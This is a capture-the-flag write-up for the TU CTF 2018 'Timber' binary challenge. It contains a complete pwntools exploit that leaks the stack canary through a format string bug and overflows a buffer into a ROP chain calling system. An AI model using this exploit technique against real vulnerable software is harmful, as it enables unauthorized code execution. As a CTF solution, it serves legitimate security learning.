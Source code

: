 [](ctf=tu-ctf-2018)
[](type=pwn)
[](tags=rop)
[](tools=radare2,gdb-peda,pwntools,python)

# Timber

We are given a [binary](../timber) with a stack canary, a stack based buffer overflow and a format string vulnerability. The binary mimics the popular dating application Tinder!

```bash
vagrant@amy:~/share/timber$ file timber
timber: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=5f25b2cc724fad9767439392ba05ac91177ae3ee, not stripped
```

```bash
vagrant@amy:~/share/timber$ ./timber
Welcome to Timber™!
The world's largest lumberjack dating site
Please enter your name: jack
Alright jack
Let's find you a match!
Options:
 l: Swipe Left
 r: Swipe Right
 s: Super Swipe

Eastern Pine age 4183? l
American Elm age 502? r
American Beech age 796? s
+Match Found!
----------------- American Beech ----------------
[American Beech] So, are you a tree hugger or what.
hello
[American Beech] Pff, lumberjacks are all the same.
```

The format string vulnerability can be used to leak the stack canary allowing us to exploit the binary with a ROP chain.

```python
from pwn import *

context(arch='i386', os='linux')
# p = process('./timber')
p = remote('18.222.250.47 ', 12345)

flag_cmd = 0x8048ba0
system = 0x08048500

p.sendline('%17$x')
p.recvuntil('Alright ')
leak = p.recvuntil('\n').strip()
canary = int(leak, 16)

log.info('Canary: {}'.format(hex(canary)))

payload = ''
payload += 'a' * 48
payload += p32(canary)
payload += 'a' * 8
payload += p32(system)
payload += 'a' * 4
payload += p32(flag_cmd)

p.sendline('s')

p.sendline(payload)
p.recvuntil('same.\n')
flag = p.recvuntil('\n').strip()
log.success(flag)
```
